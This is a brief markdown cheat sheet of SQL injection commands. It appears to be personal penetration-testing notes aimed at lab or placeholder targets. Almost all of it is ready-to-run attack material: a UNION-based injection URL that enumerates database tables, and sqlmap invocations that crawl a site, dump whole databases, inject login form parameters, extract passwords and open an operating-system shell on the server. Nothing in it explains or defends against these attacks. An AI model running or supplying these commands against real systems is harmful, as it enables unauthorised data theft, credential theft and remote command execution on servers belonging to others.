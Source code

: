 ### Sql blind enumerations

```
http://*target-domain*/comment.php?id=738%20union%20select%201,2,3,4,table_name,%206%20FROM%20information_schema.tables

```

### selecting data with UNION statements

refer to sql injection book inside kindle

### hp scrawlr

### Sqlix

### Zed Attack proxy

### SQLMAP

```
sqlmap -u *target-domain* --crawl=1

```

### Obtain full dump of database

```
sqlmap -u *target-damian*?id=738 --dbms=mysql --dump --threads=5


```

### SQLMAP Post injections

```
./sqlmap.py -r search-test.txt -p tfUPass

sqlmap --url='*target-domain*' --threads=10 --data="username=test*&password=test&submit= Login" --passwords

sqlmap -u http://*target-domain*/index.php --method POST --data="username=abc--&password=def&submit=+Login+" --not-string="Username or Password is invalid"

sqlmap -o -u "http://192.168.56.101:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --dump
```
### SQL map interactive shell

```
sqlmap -u http://10.11.8.94/comment.php?id=738 --dbms=mysql --os-shell
```
